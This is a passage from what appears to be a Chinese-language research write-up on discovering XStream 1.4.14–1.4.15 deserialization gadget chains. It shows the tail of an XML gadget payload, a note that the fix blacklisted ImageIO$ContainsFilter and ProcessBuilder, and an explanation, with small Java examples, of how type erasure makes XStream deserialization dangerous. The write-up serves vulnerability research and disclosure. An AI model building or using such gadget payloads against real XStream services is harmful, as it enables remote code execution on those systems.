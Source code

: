 ```xml
                                <buf></buf>
                                <pos>0</pos>
                                <mark>0</mark>
                                <count>0</count>
                            </in>
                        </is>
                        <consumed>false</consumed>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```

###### 修复

将ImageIO$ContainsFilter和ProcessBuilder加入了黑名单。

![image-20201118153340650](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20201118153340650.png)

#### 危险特性

1、反序列化功能强大，无需实现Serializable接口，无需实现setter/getter函数，可反序列化除了抽象类和静态成员之外的大部分类的实例及其成员变量。

2、java语言特征，和java泛型类有关。叫类型擦除。利用这个特性加上成员可随意实例化会变的非常危险。

例如下面一段代码,很明显，编译器编译时就会报错

```java
    public static void main(String args[]) throws  Exception{
        Context ctx = new InitialContext();
        Enumeration<URL> enu1 = new ContextEnumerator(ctx);
    }
```

但是如果你实现这么一个类

```java
package org.zlg;

import java.net.URL;
import java.util.Enumeration;

public class GenericsTest {
    private Enumeration<URL> enu1;
}

```

然后xml内容如下：
